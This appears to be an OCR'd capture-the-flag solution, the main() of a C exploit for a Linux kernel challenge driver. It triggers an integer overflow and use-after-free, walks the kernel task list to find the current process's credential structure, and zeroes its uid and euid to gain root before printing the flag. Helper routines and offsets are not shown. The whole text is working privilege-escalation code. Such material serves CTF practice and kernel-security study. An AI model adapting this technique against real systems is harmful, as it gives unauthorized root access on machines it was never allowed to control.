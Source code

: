 ```c

int main(int argc, char **argv) {

    // Open challenge driver
    printf("[*] Opening challenge driver...\n");
    fd = open(CHALLENGE_DRIVER, O_RDWR | O_NONBLOCK);

    // Trigger integer overflow and UAF
    printf("[*] Triggering free on recipes list memory...\n");
    for (int i = 0; i < 256; i++) {
        dev_alloc("Hello, world! :)", true);
    }

    // Iterate over Kernel tasks structures to find current process' credentials
    printf("[+] current uid = %u, current eid = %u\n", getuid(), geteuid());

    printf("[*] Starting iteration on tasks list to find current process...\n");
    unsigned long cur = INIT_TASK, cred;
    unsigned int pid;
    unsigned int this_pid = getpid();
    while (2) {
        pid = read_int(cur + PID_OFF);
        if (pid == this_pid) {
            cred = read_long(cur + CRED_OFF);
            printf("[+] Found current process. Current pid = %u, cred struct = %p\n", pid, (void *) cred);
            printf("[+] cred struct uid = %u, cred struct eid = %u\n", read_int(cred + CRED_UID_OFF), read_int(cred + CRED_EUID_OFF));

            printf("[*] Overwriting euid...\n");
            if (write_int_zero(cred + CRED_EUID_OFF) != 0) {
                goto error;
            }

            printf("[*] Overwriting uid...\n");
            if (write_int_zero(cred + CRED_UID_OFF) != 0) {
                goto error;
            }
            break;
        }
        cur = read_long(cur + TASKS_OFF) - TASKS_OFF;
    }

    if (getuid() != 0 || geteuid() != 0) {
        goto error;
    }

    printf("[+] current uid = %u, current eid = %u\n", getuid(), geteuid());
    printf("[*] All done! Here is your flag:\n");
    system("cat flag.txt");
    return 0;

error:
    printf("[-] Some error occurred, exploit failed :(\n");
    return -1;

}
```

---